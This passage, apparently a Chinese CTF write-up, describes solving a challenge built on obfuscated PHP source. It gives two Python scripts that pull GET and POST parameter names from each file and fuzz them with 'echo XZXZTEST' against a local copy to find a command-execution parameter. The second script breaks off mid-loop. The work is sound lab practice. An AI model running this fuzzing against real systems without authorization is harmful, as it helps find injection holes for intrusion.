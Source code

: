 下载 `www.tar.gz`

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208262305315.png)

???

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208262305794.png)

里面的代码都是混淆过的, 可阅读性几乎为 0

实在搞不懂要干什么, 看到 wp 才知道是要拿出文件里面的 get 和 post 参数进行 fuzz, 挺无语的...

我是把源代码都放在本地的服务器上, 这样子 fuzz 的时候会快一点

```python
import os
import re
import requests

filenames = os.listdir('.')

url = 'http://127.0.0.1/src/'

def req(filename, getParams, postParams):
    params = {k : 'echo XZXZTEST' for k in getParams}
    data = {k : 'echo XZXZTEST' for k in postParams}
    res = requests.post(url + filename, params=params, data=data)
    if r'XZXZTEST' in res.text:
        print(url + filename,params,data)
        exit()

for filename in filenames:
    if filename != 'search.py':
        with open(filename, 'r') as f:
            text = f.read()
        getParams = re.findall(r"\$\_GET\['(.*?)'\]", text)
        postParams = re.findall(r"\$\_POST\['(.*?)'\]", text)
        print('testing',filename)
        # print(getParams, postParams)
        req(filename, getParams, postParams)
```

先把每个文件里的 get post 参数匹配出来, 然后全部一次性提交试一遍, 找出来文件是什么

跑了大概三四分钟, 显示的是`xk0SzyKwfzw.php`

然后再把这个文件单独拿出来, 用另一个脚本跑, 这次挨个挨个试看是哪一个参数引起的命令执行

```python
import re
import requests

url = 'http://127.0.0.1/src/xk0SzyKwfzw.php'

with open('xk0SzyKwfzw.php', 'r') as f:
    text = f.read()

getParams = re.findall(r"\$\_GET\['(.*?)'\]", text)
postParams = re.findall(r"\$\_POST\['(.*?)'\]", text)

for get in getParams:
    params = {get : 'echo XZXZTEST'}
    res = requests.get(url, params=params)
    if 'XZXZTEST' in res.text:
        print('get',params)

for post in postParams:
    data = {post: 'echo XZXZTEST'}
```